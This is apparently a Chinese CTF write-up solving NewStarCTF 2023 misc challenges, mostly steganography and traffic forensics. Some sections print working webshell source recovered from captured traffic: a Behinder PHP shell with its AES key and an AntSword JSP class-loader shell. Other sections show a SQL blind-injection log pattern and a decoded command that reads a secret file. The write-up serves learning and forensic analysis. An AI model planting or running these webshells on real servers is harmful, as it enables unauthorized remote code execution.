


# CyberChef's Secret


多次解码base32+base58+base64


# 机密图片

给了一个二维码，但是题目说隐写，binwalk没看到什么内容，尝试LSB


看到了flag

# 流量！鲨鱼！


在http导出对象中看到了一个类似flag的东西，返回为200


解base64


# 压缩包们


下载下来一个task_1文件，发现里面藏了zip，分离一下，flag.txt需要密码


这里有串备注字符串，bandzip能看到，2345好压没看到，解密后


发现是6位数密码爆破，我用ARCHPR打开不了，用ziperello可以爆破




# 空白格


下载一个txt发现什么都看不到

[whitespace在线运行,在线工具，在线编译IDE_w3cschool](https://www.w3cschool.cn/tryrun/runcode?lang=whitespace)


# 隐秘的眼睛

给了一张眼睛的图片，丢进silenteye


# 新建Word文档

给的一个word


一眼压缩包，里面的document.xml


[新约佛论禅/佛曰加密 - PcMoe!](http://hi.pcmoe.net/Buddha.html)


# 永不消逝的电波


摩斯电码


也可以用在线网站[Morse Code Adaptive Audio Decoder | Morse Code World](https://morsecode.world/international/decoder/audio-decoder-adaptive.html)


# 1-序章


sql盲注，给的是apahce的日志


他是使用python脚本来跑的，用的不是二分法，直接对ascii码递增，跑出来后再跑下一位，这里是跑的用户名密码

所以我们来找变化的地方

```
import base64
import re

if __name__ == '__main__':
    i = 1
    tmp2 = 0
    for line in open("log.txt"):
        line = line.strip("\n")

        pattern = r"from user\),(\d+),1\)\)=(\d+),sleep\(1\),1\)"
        match = re.search(pattern, line)
        tmp1 = match.group(1)
        if i != int(tmp1):
            # print(f"第{i}位：{chr(int(tmp2))}")
            print(chr(int(tmp2)), end="")
            i += 1
        else:
            tmp2 = match.group(2)
            continue

```

写个脚本来遍历没一行，去除对应的两个位置保存到临时变量里面，检测到变化时把上一个的ascii码转成字符串即可


# base!


base64隐写

```
# base64隐写
import base64


def get_diff(s1, s2):
    base64chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/'
    res = 0
    for i in range(len(s2)):
        if s1[i] != s2[i]:
            return abs(base64chars.index(s1[i]) - base64chars.index(s2[i]))
    return res


def b64_stego_decode():
    file = open("ComeOn!.txt", "rb")
    x = ''
    lines = file.readlines()
    for line in lines:
        l = str(line, encoding="utf-8")
        stego = l.replace('\n', '')
        # print(stego)
        realtext = base64.b64decode(l)
        # print(realtext)
        realtext = str(base64.b64encode(realtext), encoding="utf-8")
        # print(realtext)
        diff = get_diff(stego, realtext)
        n = stego.count('=')
        if diff:
            x += bin(diff)[2:].zfill(n * 2)
        else:
            x += '0' * n * 2

    i = 0
    flag = ''
    while i < len(x):
        if int(x[i:i + 8], 2):
            flag += chr(int(x[i:i + 8], 2))
        i += 8
    print(flag)


if __name__ == '__main__':
    b64_stego_decode()

```




最后解base58

# WebShell的利用


直接把eval换成输出函数


还是一样的内容，但是内容减少了，猜测循环解密

```
<?php

function custom_decrypt($ciphertext, $num_iterations) {
    for ($i = 0; $i < $num_iterations; $i++) {
        $decoded = base64_decode($ciphertext);
        $decoded = str_rot13($decoded);

        // UU解码
        $decoded = convert_uudecode($decoded);
                $decoded = str_rot13($decoded);
        if (substr($decoded, 0, 57) === "eval(str_rot13(convert_uudecode(str_rot13(base64_decode('" && substr($decoded, -7) === "')))));") {
            $decoded = substr($decoded, 57, -7);
        }

        $ciphertext = $decoded;
    }

    return $ciphertext;
}

// 输入你的密文和解密次数
$encrypted_text = "";
$iterations = 10;

// 调用函数进行解密
$decrypted_text = custom_decrypt($encrypted_text, $iterations);
echo $decrypted_text;
```


# Jvav

java盲水印


# 阳光开朗大男孩


给了两个txt，一个是emoji机密，一个是社会主义核心价值观加密


```
this_password_is_s000_h4rd_p4sssw0rdddd
```

根据文件名，这个emoji加密的secret是`s000_h4rd_p4sssw0rdddd`


# 大怨种

这个gif第二帧是个二维码


但是仔细一看也不像，是汉信码[在线汉信码识别,汉信码解码 - 兔子二维码](https://tuzim.net/hxdecode/)


# 2-分析


再http对象中看到了一个再执行命令的php


还执行成功了，所以漏洞的文件名是wh1t3g0d.php，在这之前看到了login登录的


用户名是best_admin，而且前面还可以看到rce其实是通过docker裸文件包含实现的


```
best_admin_index.php_wh1t3g0d.php
```

最后再md5一下就是flag

# 键盘侠


USB流量分析[CTF流量分析常见题型(二)-USB流量_ctf usb流量分析-CSDN博客](https://blog.csdn.net/qq_43625917/article/details/107723635)

用kali的tshark提取一下

```
tshark -r usb.pcap -T fields -e usb.capdata > usbdata.txt	（提取usb）
tshark -r usb.pcap -T fields -e usb.capdata | sed '/^\s*$/d' > usbdata.txt #提取并去除空行
```

但是这里没提取出来，换种方式

```
tshark -T json -r draobyek.pcapng|grep "usbhid.data"
```


然后手动格式化一下

```
00:00:1a:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:20:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:00:00:00:00:00:00
00:00:0f:00:00:00:00:00
......
```

```
#!/usr/bin/env python
# -*- coding:utf-8 -*-

normalKeys = {"04": "a", "05": "b", "06": "c", "07": "d", "08": "e", "09": "f", "0a": "g", "0b": "h", "0c": "i",
              "0d": "j", "0e": "k", "0f": "l", "10": "m", "11": "n", "12": "o", "13": "p", "14": "q", "15": "r",
              "16": "s", "17": "t", "18": "u", "19": "v", "1a": "w", "1b": "x", "1c": "y", "1d": "z", "1e": "1",
              "1f": "2", "20": "3", "21": "4", "22": "5", "23": "6", "24": "7", "25": "8", "26": "9", "27": "0",
              "28": "<RET>", "29": "<ESC>", "2a": "<DEL>", "2b": "\t", "2c": "<SPACE>", "2d": "-", "2e": "=", "2f": "[",
              "30": "]", "31": "\\", "32": "<NON>", "33": ";", "34": "'", "35": "<GA>", "36": ",", "37": ".", "38": "/",
              "39": "<CAP>", "3a": "<F1>", "3b": "<F2>", "3c": "<F3>", "3d": "<F4>", "3e": "<F5>", "3f": "<F6>",
              "40": "<F7>", "41": "<F8>", "42": "<F9>", "43": "<F10>", "44": "<F11>", "45": "<F12>"}
shiftKeys = {"04": "A", "05": "B", "06": "C", "07": "D", "08": "E", "09": "F", "0a": "G", "0b": "H", "0c": "I",
             "0d": "J", "0e": "K", "0f": "L", "10": "M", "11": "N", "12": "O", "13": "P", "14": "Q", "15": "R",
             "16": "S", "17": "T", "18": "U", "19": "V", "1a": "W", "1b": "X", "1c": "Y", "1d": "Z", "1e": "!",
             "1f": "@", "20": "#", "21": "$", "22": "%", "23": "^", "24": "&", "25": "*", "26": "(", "27": ")",
             "28": "<RET>", "29": "<ESC>", "2a": "<DEL>", "2b": "\t", "2c": "<SPACE>", "2d": "_", "2e": "+", "2f": "{",
             "30": "}", "31": "|", "32": "<NON>", "33": "\"", "34": ":", "35": "<GA>", "36": "<", "37": ">", "38": "?",
             "39": "<CAP>", "3a": "<F1>", "3b": "<F2>", "3c": "<F3>", "3d": "<F4>", "3e": "<F5>", "3f": "<F6>",
             "40": "<F7>", "41": "<F8>", "42": "<F9>", "43": "<F10>", "44": "<F11>", "45": "<F12>"}
output = []
keys = open('data.txt')  # 数据文件路径
for line in keys:
    try:
        if line[0] != '0' or (line[1] != '0' and line[1] != '2') or line[3] != '0' or line[4] != '0' or line[
            9] != '0' or line[10] != '0' or line[12] != '0' or line[13] != '0' or line[15] != '0' or line[16] != '0' or \
                line[18] != '0' or line[19] != '0' or line[21] != '0' or line[22] != '0' or line[6:8] == "00":
            continue
        if line[6:8] in normalKeys.keys():
            output += [[normalKeys[line[6:8]]], [shiftKeys[line[6:8]]]][line[1] == '2']
        else:
            output += ['[unknown]']
    except:
        pass
keys.close()

flag = 0
output_text = "".join(output)
for i in range(len(output)):
    try:
        a = output.index('<DEL>')
        del output[a]
        del output[a - 1]
    except:
        pass
for i in range(len(output)):
    try:
        if output[i] == "<CAP>":
            flag += 1
            output.pop(i)
            if flag == 2:
                flag = 0
        if flag != 0:
            output[i] = output[i].upper()
    except:
        pass

output_text = "".join(output)
print(output_text)
with open('result.txt', 'w') as output_file:  # 先创一个txt，然后把路径放这里
    output_file.write(output_text)
```


最后看到flag，把unknown和space删掉

# 滴滴滴


一个图片一个音频，音频是手机拨号的声音，用dtmf2num解一下


拿到密码，图片用LSB，binwalk均没有看到，看到这串号码，试试steghide


看到flag


# R通大残


当用red的时候发现顶部有东西，而且不同通道还不一样


直接zsteg -a 查所有信道


看到了flag

# Nmap


给了一个nmap流量包

[Nmap常见扫描方式流量分析 - fan-tastic - 博客园 (cnblogs.com)](https://www.cnblogs.com/zhaof/p/13264836.html)

nmap流量分析是根据返回数据包来看的，这里就可以直接看[RST]的数据包


最后找到了80,3306,5000,7000,8021,9000

也可以这样做

```
tcp.flags.syn == 1 and tcp.flags.ack == 1
```


这个可以筛选所有TCP端口开放的数据包

还可以用`udp`筛选所以UDP的数据包，因为UDP不会像TCP那样建立连接，所以UDP数据包到达的端口通常是开放的

```
icmp and icmp.type == 3 and icmp.code == 3
```

这个过滤条件用于查找目标主机标记为`"端口不可达"`的数据包，通常表示端口关闭，code为3表示端口关闭

后面两个筛选条件均为空，所以来看第一个条件


这样看到了开放端口


# 依旧是空白


png打开看到crc有问题


修复宽高


然后看到了密码是s00_b4by_f0r_y0u，txt打开仍然是一堆空格


带密码的空格，想到snow隐写


# 3-溯源


在数据包后面看到了很多访问1.php的数据包，在前面还看到了一个shell.php

这个shell.php其实是通过上一个题目写进去的


看到在向1.php写马

```
<?php
@error_reporting(0);
session_start();
    $key="e45e329feb5d925b";
	$_SESSION['k']=$key;
	session_write_close();
	$post=file_get_contents("php://input");
	if(!extension_loaded('openssl'))
	{
		$t="base64_"."decode";
		$post=$t($post."");
		
		for($i=0;$i<strlen($post);$i++) {
    			 $post[$i] = $post[$i]^$key[$i+1&15]; 
    			}
	}
	else
	{
		$post=openssl_decrypt($post, "AES128", $key);
	}
    $arr=explode('|',$post);
    $func=$arr[0];
    $params=$arr[1];
	class C{public function __invoke($p) {eval($p."");}}
    @call_user_func(new C(),$params);

```

看到了内容，这是一个冰蝎马，并且拿到了aes的密钥

然后再来看1.php，将POST数据量aes解密


看到了执行的内容，来把返回值也aes解密一下，接下来就要去找我们所需要的内容


返回值解密后也是base64，直接解，看到了ifconfig命令的结果


所以内网ip为172.17.0.2

对于这种，我们其实可以根据大概的返回内容什么样子，在http对象中通过返回包大小在找


最后找到了执行whoami命令的地方


这里看其他人做法的时候有一些筛选手段


# 第一次取证

内存取证，这里就不复现了，可以用volatility，也可以用到一些更专业的东西

# 隐秘的图片


两张图片，用stegsolve处理一下


得到了完整的二维码


# ezhard磁盘取证

这些取证题，我的取证工具都过期了，就不复现了

# 新建Python文件

pyc隐写

https://github.com/AngelKitty/stegosaurus

```
python3 stegosaurus.py -x flag.pyc
```


# BabyAntSword


很多目录扫描的没用的请求，用POST过滤先看看


看到一个upload请求后就传了一个jsp


看到其实就上传了一个war包，先看看后面的jsp能不能看出什么


把war包保存下来解压一下


```
<%!
    class U extends ClassLoader {
        U(ClassLoader c) {
            super(c);
        }
        public Class g(byte[] b) {
            return super.defineClass(b, 0, b.length);
        }
    }
 
    public byte[] base64Decode(String str) throws Exception {
        try {
            Class clazz = Class.forName("sun.misc.BASE64Decoder");
            return (byte[]) clazz.getMethod("decodeBuffer", String.class).invoke(clazz.newInstance(), str);
        } catch (Exception e) {
            Class clazz = Class.forName("java.util.Base64");
            Object decoder = clazz.getMethod("getDecoder").invoke(null);
            return (byte[]) decoder.getClass().getMethod("decode", String.class).invoke(decoder, str);
        }
    }
%>
<%
    String cls = request.getParameter("n3wst4r");
    if (cls != null) {
        new U(this.getClass().getClassLoader()).g(base64Decode(cls)).newInstance().equals(pageContext);
    }
%>
```

密码是n3wst4r


但是命令执行的方式却是加载恶意类的方式，传的base64其实是类的base64，需要保存为class再反编译

但是我看wp好像不是这样做的，不过这样是可行的，但是很麻烦


wp的方式是直接分析蚁剑的流量，因为这里的恶意类肯定都是蚁剑的

对于蚁剑响应流量的解密就是Base64解密即可，需要去掉响应首尾拼接的干扰字符。

对于蚁剑请求流量的分析需要删掉首部前两个字符

其他传入的参数，比如说第一个请求


将开头2个字符去掉，base64就解出来了一个类的base64


对于其他的


一样的这样解，在tcp.stream eq 39中看到了执行了env


解出来看到了7u121的版本


后面的就不去找了，只要知道蚁剑流量前2位要删掉解base64即可

> 在tcp.stream eq 43中分析请求参数：
>
> f6f75679ab3efc=ZBY2QgIi91c3IvbG9jYWwvdG9tY2F0IjtjYXQgLy5zZWNyZXQ7ZWNobyBmNWNkOTtwd2Q7ZWNobyAwYTI1ZmJjMWM1
>
> 可以得到执行的命令为：
>
> `cd "/usr/local/tomcat";cat /.secret;echo f5cd9;pwd;echo 0a25fbc1c5`
>
> 由此找对应的响应包拿到/.secret文件的内容为：
>
> `c5850a0c-dc03-1db2-4303-43d6fdf27985`
>
> 拼接起来得到Flag：flag{n3wst4r_7u121_c5850a0c-dc03-1db2-4303-43d6fdf27985}

# Easymem

取证

# Enigma

> - **考点**：EnigmaMachine爆破
>
> - **FLAG**：flag{ENIGMAISSOOOINTERESTINGCRYPTODOYOUTHINKSO}
>
> - **解题步骤**
>
> 题目给出源码：
>
> ```python
> from enigma.machine import EnigmaMachine
> from secret import *def enigma(m, _reflector, _rotors, _rs):    
> 	machine = EnigmaMachine.from_key_sheet(            
>         rotors=_rotors,            
>         reflector=_reflector,            
>         ring_settings=_rs,            
>         plugboard_settings=''
>     )    
>     temp = machine.process_text(m)    
>     return temp.lower()
> print(enigma(flag, reflector, rotors, [rs1,15,rs2]))
> # uwdhwalkbuzwewhcaaepxnqsvfvkohskkspolrnswdfcbnn
> ```
>
> 其中我们未知的加密参数有reflector、rotors和rs1、rs2
>
> 大概了解一下这个类库就能知道这几个参数的取值范围，编写脚本爆破：
>
> ```python
> from enigma.machine import Enigma
> Machinereflectors = ['B-Thin', 'C-Thin']
> rotors = ['I', 'II', 'III', 'IV', 'V', 'VI', 'VII', 'VIII']
> for r1, r2, r3 in [(r1, r2, r3) for r1 in rotors for r2 in rotors for r3 in rotors]:   
>     for r in reflectors:        
>         for a, b in [(a, b) for a in range(1, 26) for b in range(1, 26)]:            
>             machine = EnigmaMachine.from_key_sheet(                
>                 rotors=' '.join([r1, r2, r3]),                
>                 reflector=r,                
>                 ring_settings=[a, 15, b],                
>                 plugboard_settings=''            
>             )            
>             temp = machine.process_text('uwdhwalkbuzwewhcaaepxnqsvfvkohskkspolrnswdfcbnn')            
>             if temp.startswith("FLAG"):                
>                 print(temp, r1, r2, r3, r)                
>                 break
> ```
>
> 半分钟就能得到Flag：
>
> `FLAGISENIGMAISSOOOINTERESTINGCRYPTODOYOUTHINKSO II IV VII C-Thin`
>
> 包裹flag{}得到Flag：flag{ENIGMAISSOOOINTERESTINGCRYPTODOYOUTHINKSO}


参考链接：

https://blog.csdn.net/Nanian233/article/details/134233786

[NewStarCTF 2023 公开赛道 WEEK4|MISC 部分WP - Kicky_Mu - 博客园 (cnblogs.com)](https://www.cnblogs.com/mumuhhh/p/17796451.html)

[NewStarCTF 2023 Week5 官方WriteUp (shimo.im)](https://shimo.im/docs/R3sGgZdrlyE6nL8T/read)